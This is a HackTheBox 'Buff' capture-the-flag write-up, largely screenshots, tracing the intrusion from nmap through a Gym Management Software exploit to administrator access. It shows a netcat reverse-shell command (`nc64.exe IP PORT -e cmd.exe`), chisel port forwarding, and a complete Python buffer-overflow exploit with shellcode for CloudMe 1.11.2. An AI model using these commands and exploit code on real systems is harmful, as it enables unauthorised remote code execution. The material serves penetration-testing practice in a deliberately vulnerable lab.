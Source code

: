 # HackTheBox-Buff

## NMAP
```bash
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION

```


## PORT 8080 (HTTP)

<img src="https://imgur.com/QZG5hQW.png"/>

Going over to `contact` tab we can it's using "Gym Management Software 1.0 " so let's google that and see what comes

<img src="https://i.imgur.com/DLm7Pou.png"/>

<img src="https://i.imgur.com/oVpBYBu.png"/>

We get an exploit for this so let's use it and see if it works or not

<img src="https://imgur.com/iEqTqWn.png"/>

<img src="https://imgur.com/VlGNj2d.png"/>

<img src="https://imgur.com/liQoWKQ.png"/>

We got a shell but it's not stabilized so I am going to upload `nc64.exe` on the machine

<img src="https://imgur.com/ukq7ExH.png"/>

Now to use netcat , `nc64.exe IP PORT -e cmd.exe`

<img src="https://i.imgur.com/Xu4MKpX.png"/>

<img src="https://imgur.com/utfKaoK.png"/>

We can grab the `user.txt` (the user flag) from here, I uploaded `winpeas` which is a executable you can use for enumerating windows machines

<img src="https://imgur.com/wrT5YQR.png"/>

<img src="https://i.imgur.com/yh37tSl.png"/>

We can see that on local port 8888 there's `CloudMe` running, so let's search for an exploit 

<img src="https://imgur.com/1OROy0e.png"/>

And there's the exploit we can use but issue ,it must be ran on that port and on windows machine there's no python installed so we need to port forward 8888 so we can run this exploit .In order to do that I will use `chisel` which is an awesome tool for port forwarding

https://github.com/jpillora/chisel

We need to get chisel both , the binary for linux and executable file (exe) for windows

<img src="https://i.imgur.com/XC4NrGS.png"/>

<img src="https://imgur.com/FTH4qDD.png"/>

<img src="https://i.imgur.com/RpLNfez.png"/>

We can see we have port 8888 listening on our local machine.

In the python script we need to generate our payload using encoder and with bad bytes in the raw format so I generated a windows reverse shell payload and saved it's output in a file so I can reaplce it with the payload in the script

<img src="https://imgur.com/NylcUnZ.png"/>

<img src="https://imgur.com/Kc0RPoq.png"/>

Replace the payload also replace `buf` with `payload` variable name so this is our script

```python
# Exploit Title: CloudMe 1.11.2 - payloadfer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload =  b""
payload += b"\xdb\xde\xba\xb9\xe0\x92\x91\xd9\x74\x24\xf4\x5b\x2b"
payload += b"\xc9\xb1\x52\x83\xc3\x04\x31\x53\x13\x03\xea\xf3\x70"
payload += b"\x64\xf0\x1c\xf6\x87\x08\xdd\x97\x0e\xed\xec\x97\x75"
payload += b"\x66\x5e\x28\xfd\x2a\x53\xc3\x53\xde\xe0\xa1\x7b\xd1"
payload += b"\x41\x0f\x5a\xdc\x52\x3c\x9e\x7f\xd1\x3f\xf3\x5f\xe8"
payload += b"\x8f\x06\x9e\x2d\xed\xeb\xf2\xe6\x79\x59\xe2\x83\x34"
payload += b"\x62\x89\xd8\xd9\xe2\x6e\xa8\xd8\xc3\x21\xa2\x82\xc3"
payload += b"\xc0\x67\xbf\x4d\xda\x64\xfa\x04\x51\x5e\x70\x97\xb3"
payload += b"\xae\x79\x34\xfa\x1e\x88\x44\x3b\x98\x73\x33\x35\xda"
payload += b"\x0e\x44\x82\xa0\xd4\xc1\x10\x02\x9e\x72\xfc\xb2\x73"
payload += b"\xe4\x77\xb8\x38\x62\xdf\xdd\xbf\xa7\x54\xd9\x34\x46"
payload += b"\xba\x6b\x0e\x6d\x1e\x37\xd4\x0c\x07\x9d\xbb\x31\x57"
payload += b"\x7e\x63\x94\x1c\x93\x70\xa5\x7f\xfc\xb5\x84\x7f\xfc"
payload += b"\xd1\x9f\x0c\xce\x7e\x34\x9a\x62\xf6\x92\x5d\x84\x2d"
payload += b"\x62\xf1\x7b\xce\x93\xd8\xbf\x9a\xc3\x72\x69\xa3\x8f"
payload += b"\x82\x96\x76\x1f\xd2\x38\x29\xe0\x82\xf8\x99\x88\xc8"
payload += b"\xf6\xc6\xa9\xf3\xdc\x6e\x43\x0e\xb7\x9a\x9e\x1e\x5d"
payload += b"\xf3\x9c\x1e\x69\xad\x28\xf8\x03\xa1\x7c\x53\xbc\x58"
payload += b"\x25\x2f\x5d\xa4\xf3\x4a\x5d\x2e\xf0\xab\x10\xc7\x7d"
payload += b"\xbf\xc5\x27\xc8\x9d\x40\x37\xe6\x89\x0f\xaa\x6d\x49"
payload += b"\x59\xd7\x39\x1e\x0e\x29\x30\xca\xa2\x10\xea\xe8\x3e"
payload += b"\xc4\xd5\xa8\xe4\x35\xdb\x31\x68\x01\xff\x21\xb4\x8a"
payload += b"\xbb\x15\x68\xdd\x15\xc3\xce\xb7\xd7\xbd\x98\x64\xbe"
payload += b"\x29\x5c\x47\x01\x2f\x61\x82\xf7\xcf\xd0\x7b\x4e\xf0"
payload += b"\xdd\xeb\x46\x89\x03\x8c\xa9\x40\x80\xbc\xe3\xc8\xa1"
payload += b"\x54\xaa\x99\xf3\x38\x4d\x74\x37\x45\xce\x7c\xc8\xb2"
payload += b"\xce\xf5\xcd\xff\x48\xe6\xbf\x90\x3c\x08\x13\x90\x14"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

payload = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(payload)
except Exception as e:
	print(sys.exc_value)
```

Now let's run the script and also listen on the port we set in payload, I ran the exploit once but it didn't run , when I ran it for the second time ,I got the shell as `administartor`

<img src="https://imgur.com/c0vxV3F.png"/>

<img src="https://imgur.com/AvQVFzP.png"/>